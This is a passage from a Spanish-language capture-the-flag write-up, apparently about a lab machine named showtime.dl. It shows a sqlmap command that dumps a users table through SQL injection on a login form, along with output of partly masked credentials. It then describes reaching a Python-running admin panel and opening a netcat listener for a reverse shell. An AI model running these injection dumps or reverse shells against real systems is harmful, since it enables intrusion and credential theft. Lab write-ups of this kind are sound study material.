 * **-T usuarios**: Indica que deseas trabajar con la tabla llamada "usuarios".
* **--columns**: Solicita que sqlmap liste las columnas de la tabla especificada.

```
Database: users
Table: usuarios
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int unsigned |
| password | varchar(50)  |
| username | varchar(50)  |
+----------+--------------+
```

Y entonces GUALA ahora solo es dumpear la tabla para así obtener las credenciales

`sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs -D users -T usuarios -columns --dump`

* **--dump**: Extrae y muestra todos los registros de la tabla "usuarios".

```
Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | xxxxx65xxxxxx        | lxxxs    |
| 2  | 1xxxx6123456         | sxxxxxgo |
| 3  | Mxxxxxxxxxxxxckeable | joxxxxe  |
+----+----------------------+----------+
```

Una vez con estas credenciales vamos intentar ingresar ala pagina para ver que hay y encontramos un  panel de Administración donde podemos correr comandos Python.

<figure><img src="../../.gitbook/assets/image (9).png" alt="" width="321"><figcaption></figcaption></figure>

Ejecutamos nuestra revershell con python mientras en una terminal tenemos nuestro puerto ala espera con `nc -nlvp 443`
